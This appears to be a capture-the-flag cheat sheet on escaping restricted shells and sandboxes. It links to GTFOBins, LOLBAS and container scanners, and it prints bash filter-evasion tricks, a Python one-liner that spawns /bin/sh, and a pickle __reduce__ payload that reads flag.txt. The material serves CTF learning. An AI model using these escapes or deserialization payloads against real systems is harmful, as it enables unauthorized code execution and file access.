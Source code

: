 # Escape

## Homebrew shells

[List for \*nix](https://gtfobins.github.io/) \([Tool](https://github.com/mzfr/go-gtfo)\)  
[List for windows](https://lolbas-project.github.io/)

If the challenge is a homemade shell with some artificial limitations, gtfobins and LOLBAS list myriad ways to escape. These aren't vulnerabilities, per se, but intended functionality of applications that are commonly installed.

## Bash

[Good ideas](https://wiki.bash-hackers.org)  
[List of parameter expansions](https://wiki.bash-hackers.org/syntax/pe)

### Forbidden strings

```bash
${NOSUCHVAR:-fla}${NOSUCHVAR:-g.txt}    # expands to flag.txt
```

### Stars aren't the only wildcard

```bash
fla?.txt
fl{a,A}g.txt
fl[a-z]g.txt
```

## Docker

* [deepce](https://github.com/stealthcopter/deepce/), a vulnerability scanner.  
* [grype](https://github.com/anchore/grype), a vulnerability scanner.  
* [WhaleScan](https://github.com/nccgroup/whalescan), scans windows containers.

## Electron

[Tell me more](https://github.com/doyensec/awesome-electronjs-hacking)

[view-source:](https://twitter.com/HusseiN98D/status/1325464364569276417) isn't necessarily blocked like `file://` is.

Perhaps the app even uses its own [custom URI scheme](https://twitter.com/zer0pwn/status/1325581291060826112)?

## Javascript

[Sandboxes](https://d0nut.medium.com/why-building-a-sandbox-in-pure-javascript-is-a-fools-errand-d425b77b2899)

## Python

[Tell me more](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes)

Python has **so many** ways to introspect, reflect, reload, import, execute unintended code.

Here's a pretty simple one:

```python
import statistics
statistics.random._os._execvpe("/bin/sh", [], {})
```

### Pickle

[Source](https://gist.github.com/toblu302/364c3b474c4148295fdee9bd0207e758)

```python
#!/usr/bin/env python3

# From the error message we can see that only __main__, __buitin__ and copyreg are allowed
# __builtin__.eval and __builtin__.exec are banned as well
# We can just open and print the flag.txt by using __builin__.open, followed by readline and print
# This sequence of calls is constructed below by using multiple objects and the pickle __reduce__ interface

import base64
import builtins
import pickle

class FlagObjPickle:
    def __reduce__(self):
        return builtins.open, ("./flag.txt",)
    def readlines(self):
        pass

class ReadFlagPickle:
    def __reduce__(self):
        return FlagObjPickle().readlines, tuple()

class PrintFlagPickle:
    def __reduce__(self):
        return builtins.print, (ReadFlagPickle(),)

a = PrintFlagPickle()
pickled = pickle.dumps(a, 0)
```

Any callable in the target's namespace can be called with \(almost\) arbitrary parameters by pickling a class which implements `__reduce__`. Return the callable and a tuple of arguments. See above for a technique to chain as well.

